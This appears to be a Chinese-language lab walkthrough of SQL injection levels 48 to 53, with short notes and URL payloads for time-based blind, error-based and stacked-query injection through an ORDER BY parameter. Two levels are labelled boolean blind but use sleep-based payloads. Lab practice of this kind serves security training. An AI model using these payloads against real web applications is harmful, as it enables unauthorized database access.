 # 48-53
## 第四十八关
该关是数字型，GET传参，ORDER BY字段的sql注入，无报错回显
无法使用union注入、报错注入、堆叠注入、二次注入、宽字节注入
可以使用时间盲注
```
?sort=1 and if(length(database())>9,sleep(5),1)
```
## 第四十九关
该关和上一关大致相同，不过该关是字符型，闭合即可
```
?sort=1%27and%20if(length(database())>4,sleep(5),1)--+
```
## 第五十关
查看源码发现，该关为数字型，堆叠注入，ORDER BY字段 ，GET类型，有报错回显
报错注入可行
```
?sort=1%20and%20extractvalue(1,concat(0x7e,database(),0x7e));create table ..;
```
## 第五十一关
查看源码发现，该关为字符型，堆叠注入，ORDER BY字段 ，GET类型，有报错回显
报错注入可行
```
?sort=1'%20and%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```
## 第五十二关
查看源码发现，该关为数字型，堆叠注入，ORDER BY字段 ，GET类型，无报错回显
使用布尔盲注
```
?sort=1 and if(length(database())>9,sleep(5),1);
```
## 第五十三关
查看源码发现，该关为字符型，堆叠注入，ORDER BY字段 ，GET类型，无报错回显
使用布尔盲注
```
?sort=1' and if(length(database())>9,sleep(5),1);--+
```